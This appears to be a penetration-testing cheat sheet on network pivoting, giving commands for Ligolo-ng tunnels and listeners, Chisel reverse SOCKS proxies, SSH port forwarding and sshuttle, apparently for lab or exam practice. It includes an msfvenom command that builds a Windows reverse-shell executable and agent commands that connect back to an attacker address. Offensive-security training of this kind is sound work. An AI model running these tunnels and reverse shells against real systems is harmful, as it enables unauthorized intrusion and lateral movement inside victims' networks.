

# 🔀 Pivoting

Refer [this](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5) for more techniques

Use my script from script Proxify.sh from [here](https://github.com/AdityaHebballe/Pentest-Scripts/)

## Ligolo-ng

* **Attacker:**

```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.201.0/24 dev ligolo
sudo ligolo-proxy -selfcert
```

Add the targets ip range as seen in `ifconfig` in ligolo

<figure><figcaption><p> For this add <code>172.16.201.0/24</code></p></figcaption></figure>

* **Target:**

```
./agent -connect 192.168.45.244:11601 -ignore-cert -retry
```

#### **To redirect:**

```
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```

* Creates a listener on the machine where we're running the agent at port 1234
* and redirects the traffic to port 4444 on our machine.
* You can use other ports, of course.

#### Reverse shell:

Example for the listener above:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=1234 -f exe -o reverse.exe
```

#### For file transfer:

Create another listener

```
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```

Now transfer files by using the ip of the machine that was tunneled from earlier and use port 1234. Create a python server on port 8000 in kali.

## Chisel

* Attacker:

```
chisel server --reverse --socks5 -p 8001
```

* Target:

```
./chisel client <attacker ip>:8001 R:socks 
```

Then add to `/etc/proxychains5.conf`

To forward a single port from target to our machine:

```
./chisel client 192.168.45.244:8001 R:8000:127.0.0.1:8000
```

## SSH Port Forwarding

Multiple ports can be forwarded

```
ssh -L <localhost ip>:localhost:<remote ip> ubuntu@10.129.202.64
```

Can be scanned like so :

```
nmap -v -sV -p1234 localhost
```

## SSH pivoting

```
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```

## Sshuttle

```
sshuttle -r root@10.200.98.200 --ssh-cmd "ssh -i key.rsa" 10.200.98.0/24 -x 10.200.98.200 &
```
